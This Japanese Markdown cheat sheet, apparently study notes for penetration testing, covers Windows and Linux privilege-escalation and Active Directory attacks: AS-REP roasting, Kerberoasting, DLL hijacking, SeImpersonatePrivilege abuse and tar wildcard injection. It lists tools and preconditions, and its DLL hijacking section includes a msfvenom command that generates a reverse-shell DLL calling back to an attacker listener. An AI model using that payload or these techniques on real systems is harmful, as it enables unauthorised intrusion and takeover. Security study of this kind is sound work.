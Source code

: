 # Windows

## AS-REP Roasting
**AS-REP roastingは、Kerberos pre authenticationなしでユーザからパスワードハッシュを取得できる攻撃**のことを指す。
Kerberosへの認証において、まずはAS-REQを送信するというステップがある。この要求に基づいてDCは認証成功を判断する。  
**認証に成功すると、DCはセッションキーとTGTを含むAS-REPを返す。**  
ユーザ名のパスワードとハッシュから生成したハッシュを使って暗号化されたタイムスタンプをAS-REQにのせてユーザの認証をDCに頼むという流れを、**Kerberos Pre Authentication**と呼ぶ。この機能が有効だとAS-REP roastingはできない。  
このKerberos pre authenticationがDC側で有効になっていない場合、攻撃者は任意のADユーザに代わってDCにAS-REQを返すよう要求ができる。

### 攻撃で使用できるツール
- Rubeus
- impacket-GetNPUsers
### 攻撃の条件
- DCのIPアドレスが分かっている
- AS-REQを送る際になりすますユーザの属するドメイン名が分かっている
- AS-REQを送る際になりすますドメインの、有効なユーザ名が分かっている
- Kerberosのポート(88番)と通信できる
- DC側の設定で、ターゲットユーザアカウントのKerberos pre authenticationが有効になっていない


## DLL Hijacking
.exeバイナリやそのバイナリに紐づいたサービスは、起動時にDLLを探す。  
**これらのDLLが存在しないかDLLが絶対パスを使わずに呼び出されるといったケースで、バイナリやサービスに悪意のあるDLLファイルを強制的にロード&実行させて権限昇格することができる。**  
  
msfvenom等でバイナリを生成し、DLLやバイナリを生成してリバースシェルを実行すると権限昇格に成功するなどできる。  
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.293.22 LPORT=4444 -f dll -o hoge.dll
```

## Abuse Windows SeImpersonatePrivilege
### With RogueWinRM
Windows 10 1809以降に存在する脆弱性を突いた、権限昇格の脆弱性を狙った攻撃。  
Windows Server 2019, 2016でも動くが、5985ポートをリッスンポートに使うのでWinRMがWindows端末上で動いていると機能しない。
[脆弱性みっけた人の良記事](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/)  
  
ただしRogueWinRMは、ターゲット上でWinRMが動いているかいないかによって攻撃の成否が決まってしまう。  
なのでそのような場合はprintspoofer.exeで代替できることがある。

### 攻撃で使用できるツール
- RogueWinRM
- PrintSpoofer

### 攻撃の条件
- 端末のバージョンがWindows 10 1809以降、もしくはWindows Server 2019, 2016であること
- 端末上で5985ポートを使用していないこと
- BITSがWindows上で起動していないこと(バックグラウンドでWindows Updateが走ってるときとかはBITSがうごく)
- 実行ユーザがSeImpersonatePrivilege権限を持っていること

## Kerberoasting
Kerberoastingは、**SPNがコンピュータアカウントではなくユーザアカウントに紐づけられているサービスのサービスチケットを要求する攻撃。** 

### 攻撃で使用できるツール
- impacket-GetUserSPNs
- Rubeus

### 攻撃の条件
- ドメイン内で有効なユーザ名とパスワードの資格情報を1つ以上持っていること。
- DCと通信ができること。
- ターゲットサービスアカウント所属するドメイン名が分かっていること。

============-
# Linux

## ワイルドカードインジェクション  
### 概要
tarコマンドの第三引数に*が指定されている場合、そこに--checkpointを入れて任意のコマンド実行ができる。  
tarがバックアップ用のスケジュールタスクだったり、root権限で実行されるようなタスクであった場合、root権限で実行して権限昇格できたりする。  
tarが圧縮するファイルのフォルダのとこに書き込み権限が無いといけない。
### 参考情報
[ワイルドカードインジェクション1](https://medium.com/@silver-garcia/how-to-abuse-tar-wildcards-for-privilege-escalation-tar-wildcard-injection-612a6eac0807)  
[ワイルドカードワイルインジェクション2](https://systemweakness.com/privilege-escalation-using-wildcard-injection-tar-wildcard-injection-a57bc81df61c)  

### 攻撃の条件
- tarの引数に*が末尾に指定されている。
- root権限(スケジュールタスクでもいい)でtarが実行できる。
- tarが*で圧縮ファイル群を指定する時、この圧縮ファイルたちのフォルダにファイルを作れる必要がある。